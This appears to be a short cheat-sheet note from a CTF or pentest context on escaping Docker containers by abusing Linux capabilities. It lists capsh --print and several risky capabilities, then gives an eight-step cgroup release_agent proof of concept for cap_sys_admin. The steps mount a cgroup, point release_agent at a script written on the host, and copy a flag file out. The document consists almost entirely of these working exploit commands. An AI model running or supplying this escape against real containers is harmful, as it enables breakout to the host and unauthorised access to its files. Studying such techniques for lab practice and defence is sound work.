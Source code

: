 ## Command to list

### capsh --print

### Interesting privileges: cap_net_admin, cap_sys_time, cap_sys_module, cap_sys_chroot, cap_sys_admin, cap_setgid, cap_setuid

## Example: If we have the sys_admin privilege, we can use the following PoC https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/#:~:text=The%20SYS_ADMIN%20capability%20allows%20a,security%20risks%20of%20doing%20so.

#### 1.  mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

#### 2.  echo 1 > /tmp/cgrp/x/notify_on_release

#### 3.  host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`

#### 4.  echo "$host_path/exploit" > /tmp/cgrp/release_agent

#### 5.  echo '#!/bin/sh' > /exploit

#### 6.  echo "cat /home/user/flag.txt > $host_path/flag.txt" >> /exploit

#### 7.  chmod a+x /exploit

#### 8.  sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
